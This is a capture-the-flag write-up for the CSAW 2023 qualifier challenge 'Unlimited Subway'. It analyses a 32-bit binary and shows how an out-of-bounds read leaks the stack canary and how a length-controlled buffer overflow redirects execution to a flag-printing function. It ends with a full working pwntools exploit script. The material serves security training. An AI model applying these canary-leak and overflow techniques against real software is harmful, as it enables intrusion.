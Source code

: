 ```yaml
---
title: Unlimited Subway csaw quater 2023
author: megachar0x01
date: 2023-09-18
categories: [Pwn, i386, ctf]
---
```



## Initial Assessment

Upon initial examination of the binary, the following properties and security measures were identified:

- **Architecture**: The binary is compiled for the i386 architecture, indicating that it is intended for 32-bit Intel x86 systems.
    
- **Canary and Non-executable Stack Mitigation**: The binary has enabled security measures, including the use of a "canary" and a non-executable stack. The canary is a random value placed on the stack before local variables, which helps detect stack overflows. Additionally, marking the stack as non-executable prevents the execution of code from that memory region, enhancing security.
    
- **PIE (Position-Independent Executable) Mitigation**: PIE mitigation is disabled in this binary. Consequently, the binary's base address is not affected by Address Space Layout Randomization (ASLR). This lack of ASLR protection may have implications for the binary's exploitability.

<img src="https://i.imgur.com/8cz1wNp.png" alt="img_1">

## Detailed Analysis

Opening binary in Ghidra .

Here's a breakdown of what the Main function is doing:

1. It initializes several local variables, including a bunch of `undefined4` variables (which are essentially 4-byte integers) and a few other variables of different types.

2. It enters a loop using a `while (true)` construct. Inside this loop, it performs the following actions:

   - It calls a function named `print_menu`. Which print the menu.
   
   - It reads two bytes from the standard input into the variable `local_8a`.
   
   - It checks if the character represented by `local_8a` is equal to 'F'. If true, it prompts the user for some data and reads it into `local_88`.

   - If `local_8a` is not equal to 'F', it proceeds to the next `while` loop.
   
   - Inside the next `while` loop, it checks if `local_8a` is equal to 'V'. If true, it prompts the user for an index, reads it into `local_94`, and then calls a function named `view_account` with the address of `local_88` and `local_94` as arguments. This will Read value from memmory.

   - If `local_8a` is not equal to 'V', it proceeds to the next `while` loop.
   
   - Inside the third `while` loop, it checks if `local_8a` is equal to 'E'. If true, it breaks out of the loop and proceeds to the next section of code.

   - If `local_8a` is not equal to 'E', it prints "Invalid choice".

3. After exiting the loop, it prompts the user for the size of a name and reads it into `local_90`.

4. It then prompts the user for a name and reads it into `local_48`.

5. There is a conditional check `if (local_8 != *(int *)(in_GS_OFFSET + 0x14))` which appears to be a stack protection check. If this check fails, it calls `__stack_chk_fail()` which typically triggers a stack smashing error.

6. Finally, the function returns 0.

<img src="https://i.imgur.com/nbI87za.png" alt="img_1">


This is a C function named `print_flag` that does the following:

1. It calls the `system` function with the command `"cat ./flag"`. The `system` function is used to execute shell commands. In this case, it's running the `cat` command to display the contents of a file named `flag`.

2. After executing the command, the function returns.

<img src="https://i.imgur.com/IR5IOAC.png" alt="img_1">


## Vulnerability Assessment

<img src="https://i.imgur.com/EMagNxi.png" alt="img_1">

This enables us to perform an out-of-bounds read, thereby allowing us to extract the canary value.

<img src="https://i.imgur.com/dojWfU8.png" alt="img_1">


By manipulating the number of bytes read in the buffer, we induce a buffer overflow, granting us the ability to redirect code execution towards the 'print_flag' function.
## Flag

<img src="https://i.imgur.com/GmbU86V.png" alt="img_1">


## Exploit Script 

```python
#!/usr/bin/python3

from pwn import *
import struct

# context.terminal = ['tmux','splitw','-h']
os.environ['XDG_CACHE_HOME'] = '/tmp/'

context.log_level = 'error'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''

continue
'''.format(**locals())

exe = './bin'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)
libc = elf.libc ; libc_rop = ROP(libc,checksec=False)

io = start()

canary = b"0x"

for i in range(131,127,-1):	
	io.sendlineafter(b">",b"V")
	io.sendlineafter(b"Index : ", str(i))
	
	canary+=io.recvline().split(b": ")[1].strip(b"\n")
	
for i in range(12):
	#sleep(1)
	print("Leaking Canary "+"."*i)

canary_int=(int(canary,16))

print(f"Leaked Canary : {hex(canary_int)}")

io.sendlineafter(b">",b"E")

io.sendlineafter(b"Name Size : ",b"500")

payload = b""
payload += b"A"*0x40
payload += p32(canary_int)
payload += b"aaaa" #EBP
payload += p32(elf.sym.print_flag)

io.sendlineafter(b"Name : ",payload)


io.interactive()
```



<b>
<a href="
https://github.com/Megachar0x01/megachar0x01.github.io/blob/main/tmp/unlimited_subway">All The Required Files</a>
</b>

